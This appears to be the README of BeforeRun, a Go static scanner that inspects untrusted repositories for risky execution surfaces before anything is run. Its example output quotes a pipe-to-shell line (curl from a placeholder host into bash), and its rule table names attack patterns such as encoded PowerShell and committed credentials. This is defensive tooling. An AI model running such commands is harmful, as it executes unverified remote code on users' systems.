

<p align="center">
  
</p>

<p align="center">
  <strong>Zero-dependency security intake scanner for untrusted repositories.</strong>
</p>

<p align="center">
  <a href="https://github.com/theworker02/beforerun/actions/workflows/ci.yml"></a>
  <a href="https://pkg.go.dev/github.com/theworker02/beforerun"></a>
  <a href="LICENSE"></a>
</p>

**Inspect a repository before the repository inspects your machine.**

BeforeRun is a local-first Go security tool that scans an unfamiliar codebase before you install dependencies, trust an editor workspace, build a dev container, or execute project scripts. It is available as both a command-line application and an importable Go package.

BeforeRun never executes repository code, installs dependencies, or uploads scanned contents.

## What it detects

- automatic package lifecycle scripts;
- VS Code folder-open tasks and terminal overrides;
- dev-container initialization and post-create hooks;
- remote downloads piped directly into shells;
- encoded and dynamic PowerShell execution;
- possible committed credentials and private keys;
- executable or dynamic binary artifacts;
- symbolic links escaping the repository root;
- suspicious local or relative submodules;
- bidirectional Unicode source deception.

## Install the CLI

```bash
go install github.com/theworker02/beforerun/cmd/beforerun@latest
```

Or build from source:

```bash
git clone https://github.com/theworker02/beforerun.git
cd beforerun
go build -o beforerun ./cmd/beforerun
```

## CLI usage

```bash
# Scan the current directory
beforerun scan .

# Block on medium-or-higher findings
beforerun scan . --fail-on medium

# Machine-readable output
beforerun scan ./untrusted-repo --format json

# Ignore organization-specific paths
beforerun scan . --ignore fixtures,third_party/cache

# Print the installed version
beforerun version
```

Example output:

```text
BeforeRun BLOCK — risk 53/100 (HIGH)
Scanned 29 files (184.2 KiB) in /work/untrusted-repo
Findings: 1 critical, 1 high, 0 medium, 0 low | fail-on=high

[CRITICAL] BR004 scripts/install.sh:7
  remote content is piped directly into a command shell
  Evidence: curl https://example.invalid/install.sh | bash
  Fix: Download the content separately, verify its source and checksum, then inspect it before execution.
```

## Use BeforeRun as a Go module

```bash
go get github.com/theworker02/beforerun
```

```go
package main

import (
    "fmt"
    "log"

    "github.com/theworker02/beforerun"
)

func main() {
    summary, err := beforerun.Scan("./untrusted-repo", beforerun.Options{
        Threshold: beforerun.SeverityHigh,
        Ignores:   []string{"fixtures"},
    })
    if err != nil {
        log.Fatal(err)
    }

    fmt.Printf("risk=%d findings=%d blocked=%t\n",
        summary.RiskScore,
        len(summary.Findings),
        summary.ThresholdMet,
    )
}
```

The public package exports `Scan`, `Options`, `Summary`, `Finding`, severity constants, `ParseSeverity`, and `.beforerunignore` parsing.

## Package map

| Path | Purpose |
| --- | --- |
| `github.com/theworker02/beforerun` | Public reusable scanning API |
| `cmd/beforerun` | Command-line application |
| `internal/scanner` | Filesystem walker and detection engine |
| `internal/model` | Findings, severity, and summary data model |
| `internal/report` | Text and JSON report renderers |

## Exit codes

| Code | Meaning |
| --- | --- |
| `0` | No finding met the configured threshold |
| `1` | At least one finding met the threshold |
| `2` | Invalid arguments or scan failure |

## Detection rules

| Rule | Detects | Default severity |
| --- | --- | --- |
| `BR001` | Automatic package lifecycle scripts | Medium–High |
| `BR002` | VS Code folder-open tasks and terminal overrides | Medium–High |
| `BR003` | Dev container command hooks | Medium |
| `BR004` | Remote content piped directly to a shell | Critical |
| `BR005` | Dynamic or encoded PowerShell execution | High–Critical |
| `BR006` | Possible committed credentials/private keys | High–Critical |
| `BR007` | Bidirectional Unicode source controls | High |
| `BR008` | Local or relative Git submodule URLs | High |
| `BR009` | Executable and dynamic binary artifacts | Medium–High |
| `BR010` | Executable script files | Low |
| `BR011` | Symlinks escaping the repository root | High |

See [docs/rules.md](docs/rules.md) for rationale and remediation guidance.

## Ignore file

Create `.beforerunignore` in the scan root. Each non-empty line is a repository-relative path prefix. Lines beginning with `#` are comments.

```text
# Known test fixtures
internal/testdata
examples/expected-binaries
```

BeforeRun ignores common generated directories by default, including `.git`, `node_modules`, `vendor`, `dist`, `build`, `.next`, `.turbo`, and `coverage`.

## CI and releases

Every push and pull request runs formatting verification, `go vet`, race-enabled tests, a full build, and a BeforeRun self-scan. Version tags matching `v*` invoke GoReleaser to produce checksummed Windows, Linux, and macOS archives for AMD64 and ARM64.

```yaml
- name: Scan repository execution surfaces
  run: go run ./cmd/beforerun scan . --fail-on high
```

## Development

```bash
make check
```

Equivalent commands:

```bash
gofmt -w .
go vet ./...
go test -race ./...
go build ./cmd/beforerun
go run ./cmd/beforerun scan . --fail-on critical
```

## Brand assets

- [Shield mark](assets/brand/beforerun-mark.svg)
- [README lockup](assets/brand/beforerun-lockup.svg)
- [Brand guidelines](docs/branding.md)

## Security model

BeforeRun is a fast static intake scanner, not a malware sandbox and not proof that a repository is safe. A clean report means no enabled rule matched the inspected files. Continue to review provenance, dependencies, signatures, and high-impact scripts.

See [SECURITY.md](SECURITY.md) for vulnerability reporting.

## License

MIT © 2026 Matthew Looney
